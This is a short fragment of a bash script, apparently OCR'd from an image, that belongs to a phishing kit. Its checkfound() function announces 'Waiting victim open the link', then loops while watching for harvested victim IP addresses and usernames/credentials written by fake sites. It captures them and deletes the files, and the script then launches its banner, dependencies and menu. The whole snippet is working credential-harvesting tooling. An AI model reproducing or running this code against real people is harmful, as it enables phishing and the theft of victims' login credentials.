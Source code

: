 }
checkfound() {

printf "\n"
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Waiting victim open the link ...\e[0m\n"
while [ true ]; do


if [[ -e "sites/$server/ip.txt" ]]; then
printf "\n\e[1;92m[\e[0m*\e[1;92m] IP Found!\n"
catch_ip
rm -rf sites/$server/ip.txt
fi
sleep 0.5
if [[ -e "sites/$server/usernames.txt" ]]; then
printf "\n\e[1;93m[\e[0m*\e[1;93m]\e[0m\e[1;92m Credentials Found!\n"
catch_cred
rm -rf sites/$server/usernames.txt
fi
sleep 0.5
done 

}
banner
dependencies
menu

